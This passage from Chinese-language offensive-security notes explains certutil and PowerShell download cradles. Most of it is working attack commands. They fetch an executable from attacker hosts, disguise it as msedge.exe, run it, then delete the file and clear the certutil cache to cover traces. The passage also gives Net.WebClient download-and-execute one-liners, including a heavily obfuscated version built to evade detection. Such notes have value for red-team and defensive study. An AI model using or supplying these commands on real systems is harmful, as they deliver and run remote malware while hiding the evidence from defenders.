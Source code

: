 - **`-urlcache`**: 从 URL 下载文件并将其存储在本地

- **`-split`**: 指示 `certutil` 工具分块下载文件

  虽然在大多数情况下，这个选项的作用并不明显，但它可能用于处理较大的文件。

- **`-f`**: 强制覆盖现有文件。如果目标文件 `file.exe` 已经存在，这个选项会强制覆盖它。

> ![image-20240531152407961](http://cdn.ayusummer233.top/DailyNotes/202405311524176.png)

一条龙上线后删除文件和缓存:

```cmd
certutil -urlcache -split -f http://site.com/a a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://192.168.254.102:80/a delete
cmd.exe /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

![image-20240708174552700](http://cdn.ayusummer233.top/DailyNotes/202407081745921.png)

---

```powershell
certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe b.exe; b.exe; del b.exe;certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

![image-20240708174435965](http://cdn.ayusummer233.top/DailyNotes/202407081744291.png)


---

### Powershell

> [What is PowerShell? - PowerShell | Microsoft Learn](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)

PowerShell 是一个跨平台任务自动化解决方案，由命令行 shell、脚本语言和配置管理框架组成。

PowerShell 是一种现代命令 shell，包含其他流行 shell 的最佳功能。与大多数仅接受和返回文本的 shell 不同，PowerShell 基于 .NET 公共语言运行时 (CLR) 构建。所有输入和输出都是 .NET 对象。

---

#### Net.WebClient

`Net.WebClient` 是 .NET 框架中的一个类，用于简化与 HTTP 和 FTP 服务进行数据传输的过程。它位于 `System.Net` 命名空间中，提供了一组方法，用于轻松地下载和上传数据，发送和接收网络资源。

```powershell
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))

(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()

Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```
- `(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1')`: 从 `http://bit.ly/L3g1tCrad1e` 下载文件并保存为 `Default_File_Path.ps1`
